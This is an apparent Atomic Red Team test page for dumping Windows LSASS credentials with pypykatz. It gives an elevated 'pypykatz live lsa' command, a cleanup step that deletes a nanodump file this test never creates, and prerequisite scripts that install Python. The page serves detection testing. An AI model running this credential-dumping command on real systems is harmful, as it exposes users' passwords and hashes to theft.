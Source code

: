 


<br/>
<br/>

## Atomic Test #7 - LSASS read with pypykatz
Parses secrets hidden in the LSASS process with python. Similar to mimikatz's sekurlsa::

Python 3 must be installed, use the get_prereq_command's to meet the prerequisites for this test.

Successful execution of this test will display multiple usernames and passwords/hashes to the screen.

Will create a Python virtual environment within the External Payloads folder that can be deleted manually post test execution.

**Supported Platforms:** Windows


**auto_generated_guid:** c37bc535-5c62-4195-9cc3-0517673171d8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| venv_path | Path to the folder for the tactics venv | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;venv_t1003_001|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{venv_path}\Scripts\pypykatz" live lsa
```

#### Cleanup Commands:
```cmd
del "%temp%\nanodump.dmp" > nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must have python 3 installed
##### Check Prereq Commands:
```powershell
if (Get-Command py -errorAction SilentlyContinue) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://www.python.org/ftp/python/3.10.4/python-3.10.4-amd64.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\python_setup.exe"
Start-Process -FilePath "PathToAtomicsFolder\..\ExternalPayloads\python_setup.exe" -ArgumentList "/quiet InstallAllUsers=1 PrependPath=1 Include_test=0" -Wait
```
##### Description: Computer must have venv configured at #{venv_path}
##### Check Prereq Commands:
```powershell
if (Test-Path -Path "#{venv_path}") { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
py -m venv "#{venv_path}"
```
